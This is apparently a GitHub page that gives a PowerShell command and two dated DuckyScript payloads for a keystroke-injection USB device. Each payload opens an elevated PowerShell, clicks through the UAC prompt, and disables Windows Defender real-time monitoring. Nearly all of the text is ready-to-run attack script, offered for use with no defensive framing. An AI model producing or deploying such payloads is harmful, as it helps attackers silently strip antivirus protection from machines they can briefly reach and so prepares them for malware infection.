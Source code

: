 Windows defender can be disabled with PS using the following command

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

Example scripts:

_Dec 24, 2018_ 
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
ALT y
```

Note: line with "ALT y" may not be required and could lead to error in the next line.  
_Apr 23, 2018_
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```